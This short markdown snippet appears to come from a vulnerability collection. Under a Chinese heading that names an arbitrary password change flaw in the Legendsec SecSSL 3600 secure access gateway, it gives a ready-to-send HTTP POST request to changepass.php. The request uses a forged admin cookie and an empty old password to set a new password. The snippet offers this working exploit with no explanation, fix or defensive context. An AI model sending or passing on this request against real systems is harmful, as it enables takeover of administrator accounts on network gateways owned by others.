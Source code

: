 ## 网神 SecSSL 3600安全接入网关系统 任意密码修改漏洞

```

POST /changepass.php?type=2 

Cookie: admin_id=1; gw_user_ticket=ffffffffffffffffffffffffffffffff; last_step_param={"this_name":"test","subAuthId":"1"}
old_pass=&password=Test123!@&repassword=Test123!@
```

